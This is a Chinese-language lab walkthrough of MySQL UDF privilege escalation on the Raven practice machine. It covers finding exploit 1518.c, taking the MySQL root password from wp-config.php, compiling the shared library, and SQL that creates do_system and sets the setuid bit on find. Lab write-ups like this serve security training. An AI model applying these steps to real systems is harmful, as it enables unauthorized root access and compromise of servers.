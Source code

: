## MySQL UDF 提权

就是利用MySQL的自定义函数功能。

#### UDF简介

UDF（user-defined function）是MySQL的一个拓展接口，也可称为用户自定义函数，是用来拓展MySQL数据库功能的一种技术。用户通过自定义函数可以实现在MySQL中无法方便实现的功能，其添加的新函数都可以在SQL语句中调用，就像调用本机函数（例如ABS()或SOUNDEX()）一样方便。UDF官方介绍及其函数定义请参考如下页面。

- http://dev.mysql.com/doc/refman/5.5/en/adding-functions.html
- https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html

#### 利用条件：

1、需要有MySQL root账号的密码
2、MySQL需要以root权限运行。

### 实例 - Raven靶机

- 使用 searchsploit 从 exploit-db 中搜索相关的 exploit ：
![](../pic/mysql-udf-1.png)

- 这里选择 1518.c 进行下载：
![](../pic/mysql-udf-2.png)

- 查看 1518.c 可看到使用说明：
![](../pic/mysql-udf-3.png)

- 进入 `/var/www/html/wordpress` 目录中搜索 `wp-config.php` 文件，因为该文件中记录着 MySQL 的用户名/密码，可看到：`root/R@v3nSecurity`
![](../pic/mysql-udf-4.png)

- 然后，再将 1518.c 编译成共享库：
```
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
- 编译后生成 1518.so，并将它下载到靶机中： /tmp/1518.so
接着，使用得到的 MySQL root密码，进入 MySQL shell：
![](../pic/mysql-udf-5.png)

- 依次执行如下语句：
```
#创建一个表，名为 foo
create table foo(line blob); 

#将 1518.so 导入 foo 表
insert into foo values(load_file('/tmp/1518.so'));

#将1518.so转储到 /usr/lib/mysql/plugin 目录中
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so'; 

#最重要的一步，创建一个名为 do_system 的 UDF 函数，它将调用实现该函数的代码
create function do_system returns integer soname '1518.so'; 

#调用do_system() 函数，执行chmod 命令，对 /usr/bin/find 设置 sticky 位
select do_system('chmod u+s /usr/bin/find');
```

- 此时，回到 `/tmp` 目录，使用 `find` 命令，成功提权
![](../pic/mysql-udf-6.png)


#### Reference

https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html